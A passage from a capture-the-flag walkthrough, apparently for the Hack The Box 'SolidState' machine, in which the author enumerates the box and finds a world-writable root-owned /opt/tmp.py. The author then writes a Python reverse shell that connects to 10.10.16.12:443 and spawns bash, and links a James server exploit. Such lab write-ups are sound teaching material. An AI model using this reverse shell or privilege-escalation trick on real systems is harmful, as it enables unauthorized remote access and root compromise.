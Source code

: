 ```sh
Sat 2025-02-15 08:53:36 EST  23h left   Fri 2025-02-14 08:53:36 EST  50min ago   systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

<snip>
```
{% endraw %}

<br />
Curl localhost on port 631.

{% raw %}
```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ curl 127.0.0.1:631
<!DOCTYPE HTML>
<html>
  <head>
    <link rel="stylesheet" href="/cups.css" type="text/css">
    <link rel="shortcut icon" href="/apple-touch-icon.png" type="image/png">
    <meta charset="utf-8">
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=9">
    <meta name="viewport" content="width=device-width">
```
{% endraw %}

<br />
Ok.  So, at this point, there is another exploit on exploit-db for the James server.  I ran it.  I am not going to include it in this write-up because it would only be useful if you couldn't break rbash.  But, here is the link if you want to give it a run yourself.

<a href="https://www.exploit-db.com/exploits/50347">https://www.exploit-db.com/exploits/50347</a>

<br />
Researching the installation of the James server indicates the the recommended installation location is opt.  So, let's run ls -la against the opt folder.

{% raw %}
```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 May 27  2022 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
    <meta name="viewport" content="width=device-width">
```
{% endraw %}

<br />
Well, that tmp.py looks mighty tempting being all writeable and everything.  So, on the attach machine, create a tmp.py file using <a href="https://revshells.com">revshells</a> as the base.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/solidstate]
└─$ cat tmp.py                  
import socket,subprocess,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.12",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/htb/solidstate]
└─$ python3 -m http.server          
```